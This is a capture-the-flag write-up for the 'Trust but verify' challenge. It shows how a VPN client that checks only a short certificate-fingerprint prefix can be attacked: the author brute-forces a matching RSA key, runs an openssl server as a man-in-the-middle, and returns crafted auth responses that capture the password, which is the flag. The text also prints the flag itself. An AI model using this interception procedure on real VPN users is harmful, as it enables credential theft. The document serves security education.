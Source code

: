 # Trust but verify

Author: vcpo

Flag: `EPT{m4st3r_0f_m1tm_r1ght_h3r3}`

## Description

```
We have discovered a compromised machine on our network that is extracting sensitive information in a very creative way. Will you help us find out what information is being extracted?

For your convenience we have attached a setup exactly like the one in production, but it contains mock sensitive data and different certificates. Hopefully this will assist you in production where you will get root access to the gateway server.

The password is 'trust_but_verify', but we recommend changing it to avoid nosy CTF contestants up in your environment.
```

## Provided challenge files

* [challenge.zip](challenge.zip)

## Writeup

Author: 0xLE (Norske Nøkkelstudenter)

We have access to a Kali Linux container that acts as a gateway for the VPN Client container.

![Diagram of the infrastructure](infra.png)

The VPN client has the following script as its entrypoint command:

```shell
#!/bin/sh

ip route delete all
ip route add default via 192.168.2.254
while true
do
    openconnect --servercert sha256:fc21 --authgroup=Route --user=flag --passwd-on-stdin https://192.168.1.2 < /etc/flag.txt
    sleep 10
done
```

The script does the following on a high level:

- Deletes all routes.
- Adds `192.168.2.254` as its default gateway, which is our gateway container.
- Connects to the `openconnect_server` every 10 seconds.

The connection command part is the most interesting one. We have the following observations:

- `--servercert sha256:fc21` [trusts](https://man.archlinux.org/man/openconnect.8.en#servercert=HASH) *all* certificates
  with
  a [public key fingerprint (SHA256) starting with the specified hex](https://github.com/openconnect/openconnect/blob/ca7bc36520e53561eda2c44186dd2a2e20f69d20/library.c#L1199-L1207).
  Do note that `fc21` is only used in the handout, and not in the *production* environment.
- The client connects to the `openconnect_server` container via HTTPS.
- The client pipes the flag to stdin as the password. Which means that the client uses the flag as the password.

This opens up an opportunity to perform a Man-in-the-middle (MITM) attack since the certificate's public key is
*partially* verified, thus making it relatively trivial to create our certificate that passes the check.

First, we need to obtain the certificate's public key being used in *production*. The following commands will retrieve
the TLS certificate used for `192.168.1.2:443` and dump it to `server.pem`. Then, we extract the public key from the
certificate and [digest it](https://www.openssl.org/docs/man1.1.1/man1/dgst.html) using SHA256.

```shell
openssl s_client -showcerts -connect 192.168.1.2:443 </dev/null 2>/dev/null | openssl x509 -outform PEM > server.pem
openssl x509 -in server.pem -pubkey -outform der | openssl rsa -pubin -outform der | openssl dgst -sha256
```

In our *production* environment, the public key's fingerprint started with `37e3`. This value will be used in this
writeup.

The next step is to create an RSA keypair with a public key matching the desired fingerprint. We used
a [simple shell script](brute.sh) to brute force this. This took around 10-20 minutes on my laptop. However, it can be
optimized by running the process in parallel.

After obtaining a keypair with the desired public key fingerprint, we can generate a self-signed certificate with it. It
does not matter what the certificate contains.

```shell
openssl req -x509 -key shitkey.pem -out shitkeycert.pem -sha256 -days 3650 -nodes -subj "/C=XX/ST=StateName/L=CityName/O=CompanyName/OU=CompanySectionName/CN=CommonNameOrHostname"
```

Finally, we can intercept the traffic using the private key and the certificate that we generated.

In our case, we intercepted the traffic designated to `192.168.1.2` to us, the gateway server. This process can be
optimized further by using a tool like [mitmproxy](https://mitmproxy.org/).

When intercepting the traffic manually, we can use OpenSSL to create a server with our private key and certificate.

```shell
openssl s_server -accept 443 -key shitkey.pem -cert shitkeycert.pem -tls1_2
```

Then, we can respond to the requests using the following HTTP responses:

Response to `/`:

```
HTTP/1.1 200 OK
Set-Cookie: webvpncontext=; expires=Thu, 01 Jan 1970 22:00:00 GMT; path=/; Secure
Content-Type: text/xml
Content-Length: 461
X-Transcend-Version: 1

<?xml version="1.0" encoding="UTF-8"?>
<config-auth client="vpn" type="auth-request">
<version who="sg">0.1(1)</version>
<auth id="main">
<message>Please enter your username.</message>
<form method="post" action="/auth">
<input type="text" name="username" label="Username:" />
<select name="group_list" label="Group:">
<option>Route[仅海外代理 Exclude CN]</option>
<option value="All">全局代理 All Proxy</option>
</select>
</form></auth>
</config-auth>
```

Response to the initial `/auth` request:

```
HTTP/1.1 200 OK
Content-Type: text/xml
Content-Length: 193

<?xml version="1.0" encoding="UTF-8"?>
<auth id="passwd">
<message>help</message>
<form method="post" action="/auth">
<input type="password" name="password" label="Password:" />
</form>
</auth>
```

After receiving the final `/auth` request, we can extract the password from the body, which is the flag.
